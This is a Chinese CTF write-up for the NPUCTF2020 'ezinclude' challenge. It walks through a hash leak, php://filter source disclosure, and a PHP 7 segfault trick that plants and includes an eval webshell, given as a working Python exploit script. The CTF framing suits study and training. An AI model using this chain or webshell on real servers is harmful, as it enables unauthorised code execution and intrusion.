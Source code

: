 # \[NPUCTF2020]ezinclude

## \[NPUCTF2020]ezinclude

## 考点

* 从LFI到RCE
* 利用session.upload\_progress进行文件包含
* 利用php7 Segment Fault

## wp

打开直接显示`username/password error`

F12提示`md5($secret.$name)===$pass`

查看返回头给了HASH

```
Set-Cookie: Hash=fa25e54758d5d5c1927781a6ede89f8a; expires=Fri, 25-Feb-2022 05:50:05 GMT; Max-Age=3600000
```

这就相当于告诉了name和pass，访问`/?name=&pass=fa25e54758d5d5c1927781a6ede89f8a`跳转到404页面，用burp抓包可以看到未跳转的页面

![](<../../.gitbook/assets/image (8).png>)

访问flflflflag.php，发现是404，再抓包

![](<../../.gitbook/assets/image (21).png>)

是一个文件包含，直接尝试PHP伪协议`php://filter/read=convert.base64-encode/resource=index.php`

```php
<?php
include 'config.php';
@$name=$_GET['name'];
@$pass=$_GET['pass'];
if(md5($secret.$name)===$pass){
  echo '<script language="javascript" type="text/javascript">
           window.location.href="flflflflag.php";
  </script>
';
}else{
  setcookie("Hash",md5($secret.$name),time()+3600000);
  echo "username/password error";
}
?>
<html>
<!--md5($secret.$name)===$pass -->
</html>
```

flflflflag.php

```php
<html>
<head>
<script language="javascript" type="text/javascript">
           window.location.href="404.html";
</script>
<title>this_is_not_fl4g_and_出题人_wants_girlfriend</title>
</head>
<>
<body>
<?php
$file=$_GET['file'];
if(preg_match('/data|input|zip/is',$file)){
  die('nonono');
}
@include($file);
echo 'include($_GET["file"])';
?>
</body>
</html>
```

目录扫描可以找到dir.php

```php
<?php
var_dump(scandir('/tmp'));
?>
```

然后就没找到什么了，可能是LFI到RCE，对了，返回头写了PHP的版本是7.0

本来想用session.upload\_progress进行文件包含，可能是buu的限制没成功。那就换个思路，用[php7 Segment Fault](https://qftm.github.io/2020/03/15/LFI-PHPINFO-OR-PHP7-Segment-Fault/#toc-heading-19)

```php
import requests 
from io import BytesIO 
import re 

files = { 
    'file': BytesIO(b'<?php eval($_POST["cmd"]);?>') 
} 

url1 = 'http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=php://filter/string.strip_tags/resource=index.php' 

r = requests.post(url=url1, files=files, allow_redirects=False) 

url2 = 'http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=dir.php' 

r = requests.get(url2,allow_redirects=False) 
data = re.search(r"php[a-zA-Z0-9]{1,}", r.content.decode()).group(0) 


print("++++++++++++++++++++++")
print(data) 
print("++++++++++++++++++++++") 


url3='http://59a657ea-09e5-49b8-a6db-c271b6157877.node4.buuoj.cn:81/flflflflag.php?file=/tmp/'+data


data = { 'cmd':"phpinfo();" } 


r = requests.post(url=url3,data=data,allow_redirects=False) 

print(r.content)
```

我说怎么一直system不动，原来给ban了，所以用session.upload\_progress进行文件包含也是可以的。

![](<../../.gitbook/assets/image (2).png>)

写入shell后用蚁剑然后bypass

![](<../../.gitbook/assets/image (9).png>)

## 小结

1. 从LFI到RCE
2. 代码执行先看看`phpinfo()`有没有东西
